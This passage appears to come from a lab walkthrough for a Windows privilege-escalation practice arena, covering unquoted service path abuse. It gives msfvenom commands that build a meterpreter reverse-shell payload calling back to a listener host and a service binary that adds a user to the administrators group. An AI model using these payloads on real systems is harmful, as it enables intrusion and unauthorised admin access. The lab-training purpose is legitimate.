 ![image](/assets/images/windowsprivescarena/20220426022820.png)

- we can write into the path the following : `C:\Program\Unquoted path service\common.exe`
- so let's generate the payload with msfvenom and send it to that path , then start the service

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.0.37 LPORT=1337 -f exe -o  common.exe
```

![image](/assets/images/windowsprivescarena/20220426023424.png)

![image](/assets/images/windowsprivescarena/20220426023436.png)

- note that when the last sc command halts then terminated you will lose your connection so it is better to make a better than a reverse connection like adding a user to the administrator group instead :

```powershell
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
```
